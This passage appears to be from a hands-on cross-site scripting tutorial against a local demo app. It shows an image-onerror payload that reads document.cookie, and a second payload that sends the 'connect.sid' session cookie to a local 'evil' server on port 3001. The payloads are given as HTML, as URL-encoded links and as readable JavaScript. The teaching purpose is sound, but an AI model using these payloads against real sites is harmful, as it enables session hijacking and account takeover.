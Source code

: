 ![](screenshots/xss-screenshot-002.png)

Notice how there is a cookie named "connect.sid". This is a session cookie set by our local web server. Is it possible for us to access this via the XSS vulnerability? Let's try. Repeat the steps from the "Proof of Concept" section above, but with the following code:
```html
<img src="does-not-exist" onerror="alert(document.cookie)">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E).

If successful, you should see the contents of the session cookie printed in an alert pop-up.

Now before continuing, we will need to start our "evil" web server. Run the following command in a second terminal window:
```bash
node evil-server.js
```

And now try to use the following code with the XSS vulnerability to steal the session cookie:
```html
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E).

Check the terminal window of the evil server. Do you see the contents of the session cookie?

Fun times!

Here's the JavaScript code from the last example in a readable form:
```js
var img = document.createElement('img');
img.src = 'http://localhost:3001/cookie?data=' + document.cookie;
document.querySelector('body').appendChild(img);
```
